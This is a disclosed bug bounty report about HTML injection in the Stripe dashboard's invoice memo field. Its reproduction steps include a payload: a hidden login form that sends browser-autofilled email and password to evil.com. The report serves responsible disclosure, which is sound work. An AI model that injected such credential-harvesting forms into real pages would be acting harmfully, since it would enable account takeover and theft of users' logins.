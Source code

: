 # HTML Injection in the Invoice memos field

## Report Details
- **Report ID**: 1257767
- **URL**: https://hackerone.com/reports/1257767
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-12T02:58:59.290Z
- **Disclosed**: 2023-03-01T17:05:09.775Z

## Reporter
- **Username**: sn-shyk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripe

## Vulnerability Information
## Summary:

In customer invoices a memo field is vulnerable to HTML injection.  So i can takeover any victim's account with auto-save functionality through HTML injection. Basically when we saved the login credential in our browser & tried to login into the account the browser automatically fills the email & pass we just need to click on login. so I created a login form and make the email & password field invisible by setting Opacaity:0 in CSS and set my button name to "Load more content".

## Steps To Reproduce:

  1. Login to your account and save your email and password in your browser 

  2. Go to https://dashboard.stripe.com/invoices. Create new invoice or edit any invoice 

  3. Memo field is vulnerable to HTML injection. So just paid this HTML code to memo field "<form action="//evil.com" method="GET"><input type="text" name="u" style='opacity:0;'><input type="password" name="p" style='opacity:0;'><input type="submit" name="s" value="Load more content"> "

  4. Save the invoice. Now open that invoice in a new tab.

  5.  You can see a "load more content" button there. Just click on that button and in evil.com you will find your email and password in URL.

  6. You can takeover any victim's account by sending that invoice 

## Supporting Material/References:
https://saadahmedx.medium.com/exploiting-auto-save-functionality-to-steal-login-credentials-bf4c7e1594da

## Impact

Takeover any victim's account

## Attachments
- Account_takeover_via_html_injection.mp4
